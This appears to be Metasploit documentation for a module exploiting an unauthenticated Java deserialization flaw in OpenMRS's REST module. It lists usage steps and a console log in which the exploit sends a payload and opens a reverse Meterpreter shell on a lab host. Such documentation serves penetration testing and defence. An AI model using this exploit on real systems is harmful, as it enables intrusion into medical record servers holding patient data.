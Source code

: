 ## Vulnerable Application

  OpenMRS is an open-source platform that supplies
  users with a customizable medical record system.

  There exists an object deserialization vulnerability
  in the `webservices.rest` module used in OpenMRS Platform
  for versions below `v2.24.0`. Unauthenticated remote code
  execution can be achieved by sending a malicious XML payload
  to a Rest API endpoint such as `/ws/rest/v1/concept`.

  Vulnerable versions of the software can be found [here](https://sourceforge.net/projects/openmrs/files/releases/).

  Tested on OpenMRS Platform `v2.1.2` and `v2.21` with Java
  8 and Java 9.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/openmrs_deserialization```
  4. Do: ```set TARGETURI <uri>```
  5. Do: ```set RHOSTS <ip>```
  6. Do: ```run```
  7. You should get a shell.

## Scenarios

### OpenMRS Platform `v2.1.2`

  ```
  msf5 > use exploit/multi/http/openmrs_deserialization
  msf5 exploit(multi/http/openmrs_deserialization) > set rhosts 192.168.37.176
  rhosts => 192.168.37.176
  msf5 exploit(multi/http/openmrs_deserialization) > set targeturi /openmrs-standalone
  targeturi => /openmrs-standalone
  msf5 exploit(multi/http/openmrs_deserialization) > check
  [*] 192.168.37.176:8081 - The target appears to be vulnerable. OpenMRS platform version: 2.1.2
  msf5 exploit(multi/http/openmrs_deserialization) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Target is running OpenMRS
  [*] Sending payload...
  [*] Sending stage (3021284 bytes) to 192.168.37.176
  [*] Meterpreter session 3 opened (192.168.37.1:4444 -> 192.168.37.176:47056) at 2019-12-04 12:18:50 -0600

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 192.168.37.176
  OS           : Ubuntu 18.04 (Linux 5.0.0-36-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
